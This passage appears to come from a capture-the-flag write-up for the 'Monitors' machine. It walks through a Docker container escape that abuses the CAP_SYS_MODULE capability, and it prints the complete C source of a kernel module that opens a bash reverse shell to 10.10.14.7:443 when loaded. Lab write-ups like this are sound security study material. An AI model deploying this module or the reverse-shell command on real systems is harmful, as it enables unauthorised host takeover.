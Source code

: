 `CAP_SYS_MODULE` is the only one of those three present in this container, so the kernel module route seems a good target. Because of how Docker works, the kernel is shared by the host, so this gives the ability to load a kernel module on the host.

### Exploit

#### Strategy

I’m going to build a kernel modules that provides a reverse shell to the Monitors. Because kernel modules interact with the kernel at such a low level, I’ll need to build it in the same environment that I want to install it.

There are many posts that show how to do this exploit (like [this](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd) and [this](https://xcellerator.github.io/posts/docker_escape/)), but I found [this one from blog.nody.cc](https://blog.nody.cc/posts/container-breakouts-part2/) to be the simplest to follow.

The tools I need are already installed in the container, like `make` and `gcc`. The technique will also require the linux headers for the current kernel. They exist in `/usr/src`, which suggests they are already installed:

```

root@ec8b9784f4a1:~# ls /usr/src/
apache-ofbiz-17.12.01             linux-headers-4.15.0-142
linux-headers-4.15.0-132          linux-headers-4.15.0-142-generic  <-- matches uname -r 
linux-headers-4.15.0-132-generic
root@ec8b9784f4a1:~# uname -r
4.15.0-142-generic

```

#### Create Files

I’ll need two files. Because I hate working in a text editor with a reverse shell, I’ll create them locally, and then upload them.

I’ll take `reverse-shell.c` directly from the blog post, changing the IP of the reverse shell to my own:

```

#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.7/443 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);

```

